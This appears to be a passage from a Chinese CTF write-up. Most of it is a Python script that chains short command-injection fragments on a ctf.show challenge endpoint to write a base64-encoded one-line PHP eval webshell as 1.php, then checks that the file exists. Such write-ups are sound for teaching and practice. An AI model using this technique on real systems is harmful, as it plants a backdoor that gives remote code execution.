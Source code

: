 post自带的**files**参数，完全不用自己发包

### 第三种

短命令写入一句话木马(其实第二种更简单，也能写马)

```py
import requests
import time

url = "http://9fdd95cb-69a8-4532-8ac7-ceadd3e64c40.challenge.ctf.show/api/tools.php"

payload=[
">hp",
">1.p\\",
">d\\>\\",
">\\ -\\",
">e64\\",
">bas\\",
">7\\|\\",
">XSk\\",
">Fsx\\",
">dFV\\",
">kX0\\",
">bCg\\",
">XZh\\",
">AgZ\\",
">waH\\",
">PD9\\",
">o\\ \\",
">ech\\",
"ls -t>0",
". 0"
]
def writeFile(payload):
	data={
	"cmd":payload
	}
	requests.post(url,data=data)

def run():
	for p in payload:
		writeFile(p.strip())
		print("[*] create "+p.strip())
		time.sleep(1)

def check():
	response = requests.get(url+"1.php")
	if response.status_code == requests.codes.ok:
		print("[*] Attack success!!!Webshell is "+url+"1.php")

def main():
	run()
	check()

	


if __name__ == '__main__':
	main()

```
